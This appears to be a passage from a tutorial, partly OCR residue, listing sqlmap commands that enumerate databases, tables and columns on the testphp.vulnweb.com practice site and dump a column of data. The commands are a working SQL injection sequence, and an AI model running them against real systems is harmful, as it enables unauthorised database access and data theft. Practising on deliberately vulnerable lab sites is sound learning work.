  **qlmap -u** http://testphp.vulnweb.com/listproducts.php?cat=1 **--dbs**
 
##### List information about Tables inside a specific database

 **sqlmap -u** http://testphp.vulnweb.com/listproducts.php?cat=1 **-D acuart --tables** 
 
##### List information about the columns of a table

 **sqlmap -u** http://testphp.vulnweb.com/listproducts.php?cat=1 **-D acuart -T artists --columns**
 
##### Dump the data 

 **sqlmap -u** http://testphp.vulnweb.com/listproducts.php?cat=1 **-D acuart -T artists -C aname --dump**
